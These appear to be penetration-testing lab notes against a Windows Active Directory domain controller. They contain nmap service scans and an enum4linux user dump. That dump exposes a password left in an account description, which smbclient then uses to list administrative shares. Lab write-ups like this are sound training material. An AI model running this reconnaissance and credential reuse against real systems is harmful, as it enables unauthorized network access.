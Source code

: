 **sudo nmap \-sS \-sV \-\-script=default \-Pn 192\.168\.239\.175
**PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos\-sec  Microsoft Windows Kerberos \(server time: 2024\-04\-05 19:46:13Z\)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios\-ssn   Microsoft Windows netbios\-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP \(Domain: resourced\.local0\., Site: Default\-First\-Site\-Name\)
445/tcp  open  microsoft\-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1\.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP \(Domain: resourced\.local0\., Site: Default\-First\-Site\-Name\)
3269/tcp open  tcpwrapped
3389/tcp open  ms\-wbt\-server Microsoft Terminal Services
|\_ssl\-date: 2024\-04\-05T19:46:55\+00:00; \+1s from scanner time\.
| ssl\-cert: Subject: commonName=ResourceDC\.resourced\.local
| Not valid before: 2024\-04\-04T19:45:16
|\_Not valid after:  2024\-10\-04T19:45:16
| rdp\-ntlm\-info: 
|   Target\_Name: resourced
|   NetBIOS\_Domain\_Name: resourced
|   NetBIOS\_Computer\_Name: RESOURCEDC
|   DNS\_Domain\_Name: resourced\.local
|   DNS\_Computer\_Name: ResourceDC\.resourced\.local
|   DNS\_Tree\_Name: resourced\.local
|   Product\_Version: 10\.0\.17763
|\_  System\_Time: 2024\-04\-05T19:46:15\+00:00
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2\-time: 
|   date: 2024\-04\-05T19:46:16
|\_  start\_date: N/A
| smb2\-security\-mode: 
|   3:1:1: 
|\_    Message signing enabled and required
**
nmap \-sV \-Pn \-p\- \-v 192\.168\.239\.175**
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos\-sec  Microsoft Windows Kerberos \(server time: 2024\-04\-05 19:48:35Z\)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios\-ssn   Microsoft Windows netbios\-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP \(Domain: resourced\.local0\., Site: Default\-First\-Site\-Name\)
445/tcp   open  microsoft\-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn\_http    Microsoft Windows RPC over HTTP 1\.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP \(Domain: resourced\.local0\., Site: Default\-First\-Site\-Name\)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms\-wbt\-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2\.0 \(SSDP/UPnP\)
9389/tcp  open  mc\-nmf        \.NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn\_http    Microsoft Windows RPC over HTTP 1\.0
49675/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC

-  enum4linux \-a 192\.168\.239\.175 \> enum\.txt
-  extracted users
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V\.Ventz	Name: \(null\)	Desc: New\-hired, reminder: HotelCalifornia194\!

-  smbclient \-U 'V\.Ventz' \-L \\\\\\\\192\.168\.239\.175\\\\ADMIN$
Password for \[WORKGROUP\\V\.Ventz\]: HotelCalifornia194\!

Sharename       Type      Comment
\-\-\-\-\-\-\-\-\-       \-\-\-\-      \-\-\-\-\-\-\-
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Password Audit  Disk      
SYSVOL          Disk      Logon server share